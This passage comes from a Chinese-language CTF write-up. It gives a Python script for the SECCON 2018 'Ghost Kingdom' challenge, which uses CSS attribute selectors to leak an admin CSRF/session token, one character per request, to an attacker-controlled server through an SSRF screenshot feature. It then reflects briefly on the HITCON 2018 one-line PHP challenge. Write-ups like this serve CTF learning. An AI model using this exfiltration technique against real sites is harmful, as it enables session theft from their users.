 最终 flag 是：SECCON{CSSinjection+GhostScript/ImageMagickRCE}，很有成就感的！

CSS 注入利用选择器泄露页面的脚本如下。这个脚本初始 knowvalue 设置为空，每次执行会泄露一个 chars 的值（题目服务器会访问你的服务地址+/ 字符），然后运行一次后将得到字符加入 knowvalue，由于题目有限制（防止爆破）需要等一段时间继续下一次运行，知道破解出的字符 knowvalue 长度为 22 即可，最终这个 knowvalue 就是题目的 admin 本地的 session。

```python
# encoding:utf-8
import base64
import urllib
import requests


chars = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9'] + ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
knowvalue = "f52fda1373ffcf61b33da8"

if 1:
    # temp_c = raw_input(">new char:")
    # knowvalue += temp_c
    print "your know value:",knowvalue
    print len(knowvalue)
    payload = ""
    for c in chars:
        temp = 'input[type="hidden"][name="csrf"][value^="%s"]{ background-image:url("http:// 你的服务器地址 /%s")}' % (knowvalue + c,c)
        payload += temp
    payload = base64.b64encode(payload)
    session = requests.Session()
    urlpayload = 'http://2130706433/?css=%s&msg=test&action=msgadm2' % urllib.quote(payload)
    paramsGet = {"action":"sshot2","url":urlpayload}
    headers = {"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0","Referer":"http://ghostkingdom.pwn.seccon.jp/?action=sshot","Connection":"close","Accept-Language":"zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2"}
    cookies = {"CGISESSID":"c6aea9115fefe1bc424c62"}
    response = session.get("http://ghostkingdom.pwn.seccon.jp/", params=paramsGet, headers=headers, cookies=cookies)
```

### hitcon 2018 - one line php challenge

首先贴出 wupco 大佬的 writeup: [https://hackmd.io/s/SkxOwAqiQ#](https://hackmd.io/s/SkxOwAqiQ#)

真心佩服作者的耐心和缜密的思路，感谢作者将自己的心路历程写了出来，在这次比赛的时间内我没能成功解决本题，这里主要总结一下自己的收获。

首先题目很简单：

你需要仅仅就靠这么一行代码搞到 shell，出题人是 Orange 了。真的太佩服出题人了，有没有一种在做数学竞赛的感觉 ~

我的收获：

- 你需要非常熟悉 PHP 函数作用，如果存在漏洞点需要你清楚的知道其攻击面
- 复原题目的环境真的很重要，本地测试真的很重要
- 利用 Google 查找，试错非常非常重要，需要有一颗耐心的心
- 能正确的感觉到解决本题的步骤和方向
- 对于已经知晓的攻击要熟练、熟练、熟练
- 需要具备一些 Crypto 的思维
